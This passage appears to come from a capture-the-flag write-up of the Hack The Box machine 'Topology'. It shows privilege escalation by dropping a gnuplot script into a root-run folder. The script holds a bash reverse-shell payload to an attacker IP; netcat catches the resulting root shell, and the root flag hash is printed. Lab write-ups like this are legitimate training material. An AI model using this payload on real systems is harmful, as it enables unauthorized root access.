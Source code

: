 > Yes we are. 

Lets create a `plt` file, place it in the folder and wait to see if a reverse shell is triggered.  
  
Content of `plt` file
```bash
-bash-5.0$ cat 2.plt 
system "bash -c 'bash -i >& /dev/tcp/10.10.14.18/80 0>&1'"
```

Start listener on attacker machine.
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

Copy `2.plt` to `/opt/gnuplot`.
```bash
-bash-5.0$ cp 2.plt /opt/gnuplot/.
```

Wait for reverse shell.
```bash
$ nc -lvp 80
listening on [any] 80 ...
connect to [10.10.14.18] from topology.htb [10.10.11.217] 59910
bash: cannot set terminal process group (82007): Inappropriate ioctl for device
bash: no job control in this shell
root@topology:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

> It worked and we are `root`!

## getting the second flag
```bash
root@topology:~# ls
ls
root.txt
root@topology:~# cat root.txt
cat root.txt
c6a9e87035b810d15598b8dd94b7e3d7
```